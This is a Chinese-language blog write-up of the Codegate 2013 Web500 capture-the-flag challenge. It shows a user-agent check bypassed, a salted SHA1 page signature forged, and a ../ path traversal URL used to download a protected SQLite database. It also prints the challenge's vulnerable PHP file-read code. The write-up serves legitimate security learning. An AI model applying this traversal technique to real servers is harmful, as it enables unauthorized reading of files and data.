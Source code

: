 ```yaml
---
title: Codegate2013 web500 writeup
author: yzm
layout: post
permalink: /codegate2013-web500-writeup/
categories:
  - writeup
---
```

# Web500

*yuzeming@gmail.com*

网站修改user-agant后才可以查看。

在网页源代码中发现一个加密的javascript[(连接)][1]  
这个文件可以使用Chrome 的调试功能进行解密。

解密后发现当我们需要访问某个页面都会通过这个JS中的load_page()函数进行加载。

    function load_page(p){
        var page = "home.html";
        switch (p) {
            case 1 : page="home.html"; break;
            case 2 : page="introduce.html"; break;
            case 3 : page="get_tag.html"; break;
        }
        window.location.href="index.php?p="+page+"&s="+calcSHA1(page+"Ace in the Hole");
    }

猜想index.php中有一个读取文件的函数，当参数p与s相对应。php就会把这个文件读取出来。  
尝试读取一下index.php本身。读取出来的主要代码如下。

    <?php
    session_start();
    $mobile_agent = '/(iPod|iPhone|Android|BlackBerry|SymbianOS|SCH-M\d+|Opera Mini|Windows CE|Nokia|SonyEricsson|webOS|PalmOS)/';
    if(!preg_match($mobile_agent, $_SERVER['HTTP_USER_AGENT'])) {
       die('mobile only...');
    }
    if (!isset($_GET['p'])){ $page = "home.html"; $sum = sha1($page."Ace in the Hole"); }else{ $page = $_GET['p']; $sum = $_GET['s'];}
    function load_page($page, $sum){
        if ($sum != sha1($page."Ace in the Hole")) {
            $page = "home.html";
        }
        return file_get_contents("./".$page);
    }
    ?>
    <?php echo load_page($page, $sum); ?>

的确可以读取任意文件，再尝试读取simulator.php 

    <?php
        session_start();
        if (!isset($_SESSION['scrap']) && !isset($_POST['name'])) die("scrap name is empty..");
        if ($_POST['name'] == "GM") die("you can not view&amp;save with 'GM'");
        if (isset($_POST['name'])) $_SESSION['scrap']=$_POST['name'];
        $db = sqlite_open("/var/game_db/gamesim_".$_SESSION['scrap'].".db");
        $row = sqlite_fetch_array(sqlite_query($db,"select 1 from sqlite_master"));
        if (isset($row[0])) {
            $row = sqlite_fetch_array(sqlite_query($db,"select * from status left join memo on status.time = memo.time order by status.time desc limit 1;"));
        }
    ?>
    
    <?php if (isset($row[0])) echo gzuncompress($row['memo.memo']); ?>

看到程序对GM的数据进行了保护。那么我们可以尝试绕过这个保护。  
不需要执行注入，可以直接下载这个/var/game\_db/gamesim\_GM.db文件。尝试使用../来跳转。

最后通过这个连接，可以下载到这个数据文件

`http://58.229.122.16:33445/site/index.php?p=../../../var/game_db/gamesim_GM.db&s=858497733a79dbc8bddd5f3f6b0fa8d0adf70049`  
这是一个Sqlite 2.1格式的数据库文件 。  
使用Sqlite官网上的管理器打开就可以读取了。  
注意读取出来的数据是经过压缩的。

 [1]: http://58.229.122.16:33445/site/main.js